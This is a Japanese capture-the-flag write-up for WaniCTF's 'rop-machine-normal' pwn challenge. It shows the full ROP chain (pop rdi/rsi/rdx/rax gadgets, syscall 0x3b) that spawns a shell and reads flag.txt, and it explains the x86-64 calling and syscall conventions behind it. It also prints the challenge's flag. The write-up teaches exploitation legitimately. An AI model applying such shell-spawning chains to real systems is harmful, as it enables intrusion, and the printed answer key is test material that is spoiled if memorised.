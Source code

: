 # rop-machine-normal [pwn]
## 問題文

```
nc rop-normal.pwn.wanictf.org 9004
```

### ヒント

+ ropでexecve("/bin/sh", 0, 0)を実行して下さい。
+ "/bin/sh"のアドレスは提供されています
+ execveのsyscall番号は0x3bです。
+ rop machineの使い方->[wani-hackase/rop-machine](https://github.com/wani-hackase/rop-machine/)

### 使用ツール例
+ [netcat (nc)](https://github.com/wani-hackase/memo-setup-pwn-utils#netcat)

### gccのセキュリティ保護

+ *Partial RELocation ReadOnly (RELRO)*
+ Stack Smash Protection (SSP)有効
+ No eXecute bit(NX)有効
+ *Position Independent Executable (PIE)無効*

## FLAG

```
FLAG{now-you-can-call-any-system-calls-with-syscall}
```

## 解法

### はじめに

まずは解法例。
execveのropを組みます。

```
$ nc rop-normal.pwn.wanictf.org 9004

"/bin/sh" address is 0x404070

[menu]
1. append hex value
2. append "pop rdi; ret" addr
3. append "pop rsi; ret" addr
4. append "pop rdx; ret" addr
5. append "pop rax; ret" addr
6. append "syscall; ret" addr
8. show menu (this one)
9. show rop_arena
0. execute rop
> 2
"pop rdi; ret" is appended
> 1
hex value?: 0x404070
0x0000000000404070 is appended
> 3
"pop rsi; ret" is appended
> 1
hex value?: 0
0x0000000000000000 is appended
> 4
"pop rdx; ret" is appended
> 1
hex value?: 0
0x0000000000000000 is appended
> 5
"pop rax; ret" is appended
> 1
hex value?: 3b
0x000000000000003b is appended
> 6
"syscall; ret" is appended
> 0
     rop_arena
+--------------------+
| pop rdi; ret       |<- rop start
+--------------------+
| 0x0000000000404070 |
+--------------------+
| pop rsi; ret       |
+--------------------+
| 0x0000000000000000 |
+--------------------+
| pop rdx; ret       |
+--------------------+
| 0x0000000000000000 |
+--------------------+
| pop rax; ret       |
+--------------------+
| 0x000000000000003b |
+--------------------+
| syscall; ret       |
+--------------------+
ls
chall
flag.txt
redir.sh
cat flag.txt
FLAG{now-you-can-call-any-system-calls-with-syscall}
^C
$
```

### 解説

この問題は03-rop-machine-easyの正答者数の80%～90%の正答者数と狙い通りの誘導はできている印象です。
03-rop-machine-easyの回答への誘導がもっとうまく行っていれば．．．と悔やんでも悔やみきれない感じです。

抑えなければならないポイントは以下の2つです。
1. 第1～第3引数を渡した関数呼び出しををアセンブラで呼べること
2. execveなどのシステムコールの呼ばれ方が分かっていること

#### 1. 第1～第3引数を渡した関数呼び出しををアセンブラで呼べること

まず、今回呼ばなければならないシステムコールをC言語で書くと以下の通りとなります。

```
execve("/bin/sh", 0, 0);
```
execveはプログラムを実行するシステムコールです。
第1引数(RDI)には実行したいプログラム、第2引数(RSI)にはそのプログラムに渡したい引数、第3引数(RDX)には環境変数を渡します。
`/bin/sh`のアドレスは与えられていて`0x404070`なので
```
execve(0x404070, 0, 0);
```
を呼び出せば良いことになります。
関数を呼び出す場合には
- 第1引数: RDIレジスタ
- 第2引数: RSIレジスタ
- 第3引数: RDXレジスタ

のレジスタにそれぞれ値をセットします。
なのでスタックからポップしてレジスタに設定する用のガジェットを以下の通り並べます。
```
+--------------------+
| pop rdi; ret       |
+--------------------+
| 0x0000000000404070 |
+--------------------+
| pop rsi; ret       |
+--------------------+
| 0x0000000000000000 |
+--------------------+
| pop rdx; ret       |
+--------------------+
| 0x0000000000000000 |
+--------------------+
```

#### 2. execveなどのシステムコールの呼ばれ方が分かっていること

システムコールとは、OSが提供するAPIを呼ぶための仕組みです。
よりCPUに近い機能を使った関数群になっています。
システムコールは[/usr/include/x86_64-linux-gnu/asm/unistd_64.h](https://www.apt-browse.org/browse/ubuntu/precise/main/amd64/linux-libc-dev/3.2.0-23.36/file/usr/include/x86_64-linux-gnu/asm/unistd_64.h)に記載されています．
システムコールが呼ばれるとき、ユーザプログラムではRAXレジスタにシステムコールに対応するシステムコール番号を設定して`syscall`命令を呼びます．
するとソフトウェア割り込みが入ってOS側でRAXレジスタをチェックしてユーザからどのシステムコールが呼ばれたかを判定して該当するシステムコールの処理を実行します。
ヒントや[/usr/include/x86_64-linux-gnu/asm/unistd_64.h](https://www.apt-browse.org/browse/ubuntu/precise/main/amd64/linux-libc-dev/3.2.0-23.36/file/usr/include/x86_64-linux-gnu/asm/unistd_64.h)を見てわかる通り、execveのシステムコール番号は0x3b (10進数だと59)になります。

というわけでガジェットを以下の通り並べます。
```
+--------------------+
| pop rax; ret       |
+--------------------+
| 0x000000000000003b |
+--------------------+
| syscall; ret       |
+--------------------+
```

そして上記1と2をまとめて実行するとシェルが呼び出せます。
